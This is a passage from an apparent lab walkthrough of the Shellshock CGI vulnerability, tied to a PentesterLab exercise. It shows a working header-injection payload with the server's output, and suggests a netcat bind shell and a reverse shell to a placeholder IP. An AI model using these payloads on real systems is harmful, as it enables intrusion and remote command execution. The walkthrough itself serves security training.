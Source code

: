 Payload construction also matters, but differs depending on what you are doing.

Our simple payload here begins with `echo` and a statement-ending trailing semicolon (`;`) because our HTTP request is using the `GET` verb, and the output we're constructing (the contents of the `/etc/passwd`) file does not syntactically conform to HTTP headers. This would cause the HTTP sever to issue an HTTP 500 Internal Server Error error code instead of completing the request successfuly. So, we echo a blank line, indicating the end of the HTTP response headers and the beginning of the HTTP response body.

Now we simply print out the contents of the file we want using the full path to the `cat` binary (since it is unlikely that we actually have a `PATH` environment variable in the context of the running Web server), and the path to the file. Classic command injection.

We are not limited to the User-Agent HTTP header, either. Any header we supply will work. The following HTTP request will produce the expected output:

```
GET /cgi-bin/status HTTP/1.0
Blahblah-DoesntMatter: () { :;}; echo; echo "Hacked!"
```

Gives us:

```
HTTP/1.1 200 OK
Date: Fri, 26 Jun 2020 22:04:50 GMT
Server: Apache/2.2.21 (Unix) DAV/2
Connection: close
Content-Type: text/plain

Hacked!
Content-Type: application/json

{ "uptime": " 22:04:51 up 54 min, 1 users, load average: 0.00, 0.01, 0.00", "kernel": "Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014 i686 GNU/Linux"}
```

From here, it's simply a matter of figuring out what payload you want and that you can take advantage of in this particular situation. Obvious options include, for instance, a simple bind shell (`nc -l -p 31337 -e /bin/bash`), or a reverse shell (.e.g., `nc <YOUR_IP> 31337 -e /bin/bash`). Be sure to search out bind shell cheat sheets across the Web.

# Discussion

> :construction: TK-TODO

# Additional references

* [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)
* [PentesterLab.com Shellshock exercise](https://pentesterlab.com/exercises/cve-2014-6271)
